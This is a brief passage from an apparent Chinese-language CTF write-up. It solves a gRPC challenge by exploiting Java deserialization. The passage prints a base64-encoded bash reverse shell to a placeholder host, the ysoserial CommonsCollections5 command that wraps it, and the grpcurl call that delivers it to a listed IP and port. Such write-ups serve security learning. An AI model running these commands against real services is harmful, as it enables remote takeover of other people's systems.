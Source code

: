 搜索猜测应该是 Java 的反序列化

什么信息都没有，使用 `yoserial-all.jar` 打了 CC5，发现能通

```bash
echo 'bash -i >& /dev/tcp/your_ip/your_port 0>&1' | base64

# xxx 为上一条命令的输出
java -jar ysoserial-all.jar CommonsCollections5 'bash -c {echo,xxxxxx}|{base64,-d}|{bash,-i}'|base64

# xxx 为上一条命令的输出（注意删除 base64 输出自带的\n）
docker run fullstorydev/grpcurl -plaintext -d '{"serializeData":"xxx"}' 39.106.48.123:39628 helloworld.Greeter.ProcessMsg
```

[![](assets/1705540469-4956b2f46d6955ae1a83c5e49be1b2dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240115172224-981e4e48-b387-1.png)

## Misc

